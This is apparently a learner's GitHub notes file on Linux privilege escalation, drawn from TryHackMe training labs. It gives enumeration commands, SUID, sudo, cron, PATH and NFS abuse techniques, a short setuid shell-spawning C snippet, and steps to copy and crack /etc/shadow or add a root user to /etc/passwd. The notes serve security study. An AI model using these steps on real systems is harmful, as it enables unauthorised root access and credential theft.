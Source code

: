 # Privilage Escalation Handbook
This is what I learnt TryHackMe's Jr Penetration Tester Path's privilage escalation modules

# Linux Privilage Escalation

# Enumeration
< Find Hostname >
  - hostname

< Find uname >
  - uname -a `for all information`
---------------------
Function Shortcut

- Kernel Name	-s
- Kernel Release	-r
- Kernel Version*	-v
- Network Node Name (Hostname)	-n
- Machine architecture	-m
- Processor architecture	-p
- Hardware Platform (OS architecture)	-i
- Operating System	-o
---------------------

< /proc/version > `provides information about the target system processes.`
 
< /etc/issues > `This file usually contains some information about the operating system but can easily be customized or changes.`
 
 < The “ps” command provides a few useful options. >
  - ps -A: `View all running processes`
  - ps axjf: `View process tree (see the tree formation until ps axjf is run below)`
  - ps aux: `The aux option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x). Looking at the ps aux command output, we can have a better understanding of the system and potential vulnerabilities.`
 
< env >
  - show environmental variables.
  - The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.
 
< sudo -l >
  - The target system may be configured to allow users to run some (or all) commands with root privileges.
 
< history >
  - can give us some idea about the target system

< netstat >
  - netstat -a: shows all listening ports and established connections.
  - netstat -at or netstat -au can also be used to list TCP or UDP protocols respectively.
  - netstat -l: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol (below)
  - netstat -s: list network usage statistics by protocol (below) This can also be used with the -t or -u options to limit the output to a specific protocol.
  - netstat -tp: list connections with the service name and PID information.
  - netstat -i: Shows interface statistics. We see below that “eth0” and “tun0” are more active than “tun1”.

< find >
  - find . -name flag1.txt: `find the file named “flag1.txt” in the current directory`
  - find /home -name flag1.txt: `find the file names “flag1.txt” in the /home directory`
  - find / -type d -name config: `find the directory named config under “/”`
  - find / -type f -perm 0777: `find files with the 777 permissions (files readable, writable, and executable by all users)`
  - find / -perm a=x: `find executable files`
  - find /home -user frank: `find all files for user “frank” under “/home”`
  - find / -mtime 10: `find files that were modified in the last 10 days`
  - find / -atime 10: `find files that were accessed in the last 10 day`
  - find / -cmin -60: `find files changed within the last hour (60 minutes)`
  - find / -amin -60: `find files accesses within the last hour (60 minutes)`
  - find / -size 50M: `find files with a 50 MB size`
  - find / -writable -type d 2>/dev/null: `Find world-writeable folders`
  - find / -perm -222 -type d 2>/dev/null: `Find world-writeable folders`
  - find / -perm -o w -type d 2>/dev/null: `Find world-writeable folders`
  - find / -name perl*
  - find / -name python*
  - find / -name gcc*
  - find / -perm -u=s -type f 2>/dev/null: `Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.`
 
# Automated Enumeration Tools

  - LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
  - LinEnum: https://github.com/rebootuser/LinEnum
  - LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
  - Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
  - Linux Priv Checker: https://github.com/linted/linuxprivchecker

# Privilege Escalation: Kernel Exploits

  - Find version of system
  - Exploit-db: https://www.exploit-db.com
  - linux kernel: https://www.linuxkernelcves.com/cves
  - Google: https://www.google.com
  - Searchsploit
  
# Privilege Escalation: Sudo

  - sudo -l: `Check root privilages`
  - GTFObins: https://gtfobins.github.io/

# Privilege Escalation: SUID

  - find / -type f -perm -04000 -ls 2>/dev/null: `list files that have SUID or SGID bits set.`
  - GTFObins: https://gtfobins.github.io/
- *If you can view /etc/shadow and /etc/passwd, can copy to attacker machine and use JohnTheRipper to find credentials*
  - unshadow passwd.txt shadow.txt > passwords.txt
- *If you can write to /etc/passwd*
  - openssl passwd -1 salt THM password1
  - add "root:/bin/bash" to end of user in /etc/passwd

# Privilege Escalation: Capabilities

  - getcap -r / 2>/dev/null: `list enabled capabilities.`
  - GTFObins: https://gtfobins.github.io/

# Privilege Escalation: Cron Jobs

  - /etc/crontab: `read the file keeping system-wide cron jobs`
- *See if any files can be edited, to run a payload or start a reverse shell*

# Privilege Escalation: PATH

  - echo $PATH: `Show the PATH variable`
  1. What folders are located under $PATH
  2. Does your current user have write privileges for any of these folders?
  3. Can you modify $PATH?
  4. Is there a script/application you can start that will be affected by this vulnerability?
---------------------------
  path_exp.c:
---------------------------
  #include <unistd.h>
  void main()
  {
  setuid(0);
  setgid(0);
  system(thm); `any binary that will run /bin/bash`
  }

  - gcc path_exp.c -o path -w `compile the C script`
  - chmod u+s path
  - find / -writable 2>/dev/null: `search for writable folders`
- *if able to, add path to the $PATH env variable*
  - export PATH=/tmp:$PATH `replace {/tmp} with the path to add`

# Privilege Escalation: NFS

  - /etc/exports `List NFS (Network File Sharing) configuration. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.`
- *On attacker machine*
  - showmount -e <target-IP>
  - mkdir /tmp/backuponAttackerMachine
  - mount -o rw <target-IP>:<NFS-file> /tmp/backuponAttackerMachine `mount -o rw 10.10.10.19:/backups /tmp/backuponAttackerMachine.`
  - nano nfs.c `spawn a /bin/bash shell`
  - gcc nfs.c -o nfs -w `compile nfs.c`
  - chmod +s nfs  
  
# Windows Privilage Escalation
 
